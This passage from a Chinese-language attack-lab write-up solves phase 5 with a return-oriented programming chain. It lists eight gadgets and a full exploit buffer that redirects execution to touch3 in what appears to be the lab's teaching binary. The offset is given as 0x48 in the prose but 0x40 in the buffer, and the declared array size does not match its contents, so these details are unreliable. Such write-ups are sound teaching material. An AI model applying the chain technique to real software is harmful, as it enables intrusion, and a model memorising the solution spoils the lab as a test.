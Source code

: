 因此从第二、三个 `gadget` 中选择一个，将 `%edx` 赋值给 `%ecx`，仍然需要下一次转移，搜索 `89 c[8-f]` 找到

```asm
0000000000401a25 <addval_187>:
  401a25:   8d 87 89 ce 38 c0       lea    -0x3fc73177(%rdi),%eax
  401a2b:   c3                      ret                       
        # 401a27:  89 ce movl %ecx,%esi
        # 401a29:  38 c0 cmpb %al,%al   ---> 等价于 nop
        # 401a2b:  c3  ret
```

至此，经过 `%rax`，`%edx` 和 `%ecx` 三个寄存器的中转，终于将偏移量赋值给了 `%rsi`，再进入 `add_xy` 函数计算出字符数组地址在 `%rax` 中。再次使用 `0x4019a2` 即可存入 `%rdi`，然后 `ret` 到 `touch3` 完成目标。

综上，先统计需要的 `gadget`：

1. 0x401a06 : `movq %rsp,%rax`
2. 0x4019a2 : `movq %rax,%rdi`
3. 0x4019ab : `pop %rax`
4. 0x4019dd : `movl %eax,%edx`
5. 0x401a34 : `movl %edx,%ecx`
6. 0x401a27 : `movl %ecx,%esi`
7. 0x4019d6 : `add_xy`
8. 0x4019a2 : `movq %rax,%rdi`

总共 `8` 个 `gadget`，恰好和手册中的答案一致。

将它们依次排入输入串中，注意，在 `0x4019ab` 之后，`0x4019dd` 之前，需要输入字符数组相对于 `%rdi` 的偏移值，这样才能在真正执行 `pop` 指令时让偏移值位于栈顶。另外不要忘掉所有 `gadget` 之后需要 `touch3` 的地址 `0x4018fa`。

关于偏移量的值，可以参考栈结构如下

![Phase5_pic1](./Screenshots/Phase5_pic1.png)

由于，在进入 `gadget 1`，执行指令之前，**`gadget 1` 的地址已经被弹出**， `%rsp` 的指向处于图中 `0x30` 处。`cookie` 的实际地址则在 `0x78` 处，所以偏移量应当为 `0x48`

综上得到输入串如下：

```c
buf[40] = { /* Phase 5 ver 1 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,    /*  padding */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x06, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 1 */
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 2 */
    0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 3 */
    0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  offset  */  
    0xDD, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 4 */
    0x34, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 5 */
    0x27, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 6 */  
    0xD6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 7 */  
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 8 */  
    0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  touch3  */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61     /*  cookie  */
};
```
